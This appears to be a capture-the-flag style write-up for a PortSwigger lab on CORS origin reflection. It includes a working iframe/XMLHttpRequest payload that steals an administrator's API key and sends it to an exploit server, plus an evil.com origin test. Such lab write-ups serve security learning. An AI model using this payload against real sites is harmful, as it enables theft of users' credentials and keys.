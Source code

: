 # Write-up: CORS vulnerability with basic origin reflection

Lab-Link: <https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack>  
Difficulty: APPRENTICE  
  

## Lab description

![lab_description](img/1.png)

### Goals

- Create a malicious JS code:
    - which can retreive the administrator's API key
    - and sends it to exploit server

## Steps

Firstly, login into the website using given credentials `wiener:peter` and intercept the request while login.

![login_page](img/2.png)

We can see the request for url `/accountDetails` whose respone contains the API key.

![api_req](img/6.png)

Now, if we send the request with some malicious looking origin like `Origin: evil.com`, we still get successful response with header `Access-Control-Allow-Origin: evil.com`. This confirms that the application is allowed to be access from any origin.

![cors_poc](img/7.png)

Now, this javascript code will:
1. call the `/accountDetails` page
2. fetches the API key
3. issues a request to the exploit server containing the value

```js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ab800f604b3156b81fa8921009c00d3.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>"></iframe>
```

Now, Go to exploit server and paste the code and "Deliver the exploit to victim".

![exploit_code](img/3.png)

After checking the "Access log" from exploit server we can see the administrator's API Key

![api_key](img/4.png)

We can now submit this API key of administrator.

Hence, lab is solved.

![success](img/5.png)
